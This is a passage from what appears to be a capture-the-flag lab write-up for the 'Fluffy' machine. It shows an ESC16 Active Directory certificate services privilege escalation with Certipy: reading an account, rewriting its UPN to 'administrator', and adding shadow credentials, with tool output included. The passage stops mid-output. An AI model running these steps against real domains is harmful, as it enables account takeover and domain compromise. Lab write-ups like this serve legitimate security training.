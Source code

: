 ```bash
```

- There is an ESC16 vulnerability! , refer to the following link

## Privilege Escalation

### Step 1 : Read the original UPN of the victim account (optional - for restore).

```bash
certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -user 'ca_svc' read

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc@fluffy.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-05-29T15:31:53+00:00
```

### Step 2: Update the victim account’s UPN to the target admin’s sAMAccountName.

```bash
certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69'  -upn 'administrator'  -user 'ca_svc' update

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'

```

### Step 3: Request a certificate issued as the "victim" user from any suitable client authentication template\* (e.g., "user") on the CA vulnerable to ESC16

```bash
certipy shadow -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -account 'ca_svc' auto
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'a73d1a8d-8d10-f6ac-d20e-fe25791a1161'
[*] Adding Key Credential with device ID 'a73d1a8d-8d10-f6ac-d20e-fe25791a1161' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'a73d1a8d-8d10-f6ac-d20e-fe25791a1161' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
```